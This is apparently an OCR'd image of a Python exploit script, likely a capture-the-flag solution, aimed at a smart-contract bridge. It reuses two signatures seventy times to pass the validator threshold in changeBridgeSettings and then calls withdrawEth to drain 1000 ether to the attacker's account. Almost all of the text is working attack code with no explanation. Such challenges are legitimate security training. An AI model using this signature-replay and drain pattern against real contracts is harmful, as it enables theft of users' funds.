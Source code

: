```Python
            "chainId": w3.eth.chain_id,  # Mainnet: 1, Goerli: 5, etc.
            "nonce": w3.eth.get_transaction_count(account.address),
        },
        account,
    )
)
print(make_validator(account))
print(make_validator(new_acc))

message = eth_abi.encode(
    ["address", "address", "uint256"], [challenge.address, admin_nft.address, 2**96]
)
signed_message_a = w3.eth.account.sign_message(
    encode_defunct(message), private_key=PRIVATE_KEY
)
signed_message_b = w3.eth.account.sign_message(
    encode_defunct(message), private_key=new_acc.key
)

message_hash = message  # From step 1
receiver = account.address  # Replace with the actual receiver address
amount = 1000000000000000000  # Example amount in wei (1 ETH)
callback = Web3.to_bytes(text="example_callback_data")  # Example callback data

# Prepare the arguments
signatures = [
    signed_message_a.signature,
    signed_message_b.signature,
] * 70
print(
    send_transaction(
        bridge.functions.changeBridgeSettings(message_hash, signatures),
        account,
        gas=3000000,
    )
)

print(
    send_transaction(
        bridge.functions.withdrawEth(
            Web3.to_bytes(b"nyaaaaa".ljust(32)),
            [],
            account.address,
            w3.to_wei(1000, "ether"),
            callback,
        ),
        account,
    )
)
```
